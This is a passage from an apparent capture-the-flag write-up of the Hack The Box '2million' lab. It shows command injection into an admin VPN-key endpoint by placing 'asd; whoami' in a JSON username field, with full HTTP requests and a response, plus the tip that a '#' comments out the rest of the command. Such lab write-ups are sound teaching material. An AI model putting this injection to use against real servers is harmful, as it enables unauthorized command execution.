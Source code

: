 ```
}
```

Now our user is added as an admin

#### Injection

Now the endpoint /api/v1/admin/vpn/generate was available only when someone was an admin, so it might be generating the vpn key by doing <./program>, so I tried to inject commands by putting a `;` and breaking into another command:


```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/json
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=m1m3o51qc1l8uigsqgr6df6s9f
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 29

{
"username": "asd; whoami"}
```


aaand it didn't work:


```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 27 Oct 2023 15:45:16 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
```


but it seems like i have broken the script used to generate the vpn key, so after spending a lot of time trying to get something here I learned that I just needed to comment the rest of the code out with a `#` :) Let's try that again!


```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/json
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=m1m3o51qc1l8uigsqgr6df6s9f
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Length: 29
```